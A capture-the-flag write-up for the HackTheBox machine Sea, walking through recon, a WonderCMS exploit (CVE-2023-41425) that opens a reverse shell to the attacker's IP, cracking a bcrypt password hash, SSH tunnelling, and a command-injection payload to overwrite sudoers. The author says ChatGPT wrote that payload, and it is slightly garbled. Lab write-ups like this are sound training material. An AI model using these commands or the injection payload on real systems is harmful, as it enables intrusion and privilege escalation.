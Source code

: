 # Sea.HTB

## Recon 

### Rustscan 

Scanning all open ports to find what services are running 

```bash
rustscan -a 10.129.235.245 --ulimit 9000 -- -A -O
```

so the website has only exposed SSH and HTTP ports 

adding to hosts file and exploring the website 

Only found this php form 


```html
http://sea.htb/contact.php
```
### WhatWeb Scanning

```bash
whatweb http://sea.htb
```

whatweb scan shows that the website runs on PHP "Cookies"

```bash
http://sea.htb [200 OK] Apache[2.4.41], Bootstrap[3.3.7], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.235.245], JQuery[1.12.4], Script, Title[Sea - Home], X-UA-Compatible[IE=edge]
```

### FFUF Directory Enumeration

```bash
ffuf -u http://sea.htb/FUZZ -t 100 -w /usr/share/seclists/Discovery/Web-Content/common.txt 
```

```bash
 ffuf -u http://sea.htb/themes/FUZZ -t 100 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt 
```

```bash
 ffuf -u http://sea.htb/themes/bike/FUZZ -t 100 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt 
```

after 30 mins of webfuzzing i found the "http://sea.htb//themes/bike/LICENSE" and "http://sea.htb//themes/bike/README.md"  endpoint

README.md consist of this 

```bash
# WonderCMS bike theme

## Description
Includes animations.

## Author: turboblack

## Preview
![Theme preview](/preview.jpg)

## How to use
1. Login to your WonderCMS website.
2. Click "Settings" and click "Themes".
3. Find theme in the list and click "install".
4. In the "General" tab, select theme to activate it.
```                              

### Finding Exploit
                                        
after a simple google search i found "WonderCMS" exploit "CVE-2023-41425"

```bash
https://github.com/prodigiousMind/CVE-2023-41425
```

To use this exploit we need a little patience 

- start netcat listener 

```bash
nc -lnvp 6969
```

- run the python exploit 

```bash
python3 exploit.py http://sea.htb/themes 10.10.14.16 6969
```

- curl to the exploit (Read CVE for full explanation)

```bash
curl 'http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.14.16&lport=6969' 
```

and BOOM!! we're in the machine

- running linpeas to find some clues for privilage escalation

Found database.js with the help of linpeas

```bash


╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files                                                                                                             
/dev/mqueue
/dev/shm
/dev/shm/chisel_1.10.0_linux_amd64
/run/lock
/run/lock/apache2
/run/screen
/snap/core20/2318/run/lock
/snap/core20/2318/tmp
/snap/core20/2318/var/tmp
/tmp
/tmp/tmux-33
/var/cache/apache2/mod_cache_disk
/var/crash
/var/lib/php/sessions
/var/tmp
/var/www/sea
/var/www/sea/.htaccess
/var/www/sea/contact.php
/var/www/sea/data
/var/www/sea/data/cache.json
/var/www/sea/data/database.js
```

and we got the passowrd hash of our user 

```js
cat /var/www/sea/data/database.js 	
{
    "config": {
        "siteTitle": "Sea",
        "theme": "bike",
        "defaultPage": "home",
        "login": "loginURL",
        "forceLogout": false,
        "forceHttps": false,
        "saveChangesPopup": false,
        "password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q",
}}
```

### Finding and Cracking Password Hash

copy the hash in a file and use hash analyzer to find hash type

- bcrypt hash identified

Using hashcat to crack password


```bash
hashcat -m 3200 -a 0 hash /usr/share/seclists/rockyou.txt
```

```bash
$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q:mychemicalromance
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM...DnXm4q
Time.Started.....: Thu Aug 15 17:31:18 2024 (5 secs)
Time.Estimated...: Thu Aug 15 17:31:23 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/seclists/rockyou.txt)
Started: Thu Aug 15 17:31:14 2024
Stopped: Thu Aug 15 17:31:25 2024
```

### Login Via SSH

```bash

ssh amay@sea.htb
```
```bash
cat user.txt
```

### User flag captured

### Privilage Escalation

Again running linpeas to find any leads

- Found a webserver running in port "8080"

### Tunneling

- Creating a tunnel between sea and localmachine to gather information about the webserver running on port "8080"

```bash 
ssh -L 6969:localhost:8080 amay@sea.htb
```

browsing http://localhost:6969 and logging in with the user amay and its password 

- the webserver reveals a "System Monitor(Developing) page"

- we can access log files
- in the access.log got the first clue about root

### Burpsuite

so this endopint will read the data in auth.log file and it will display data in the webserver

```bash
log_file=%2Fvar%2Flog%2Fauth.log&analyze_log=
```

what if I change the path and read root.txt

```bash
%2Froot%2Froot.txt
```

failed


-  I asked Chatgpt to write a payload for me that would get me /root/root.txt Here is the payload

"log_file=/root/root.txt;cp/dev/shm/sudoers> /etc/suoders&analyze_log"

Got the root flag

143996beee3b052762b83de055096952
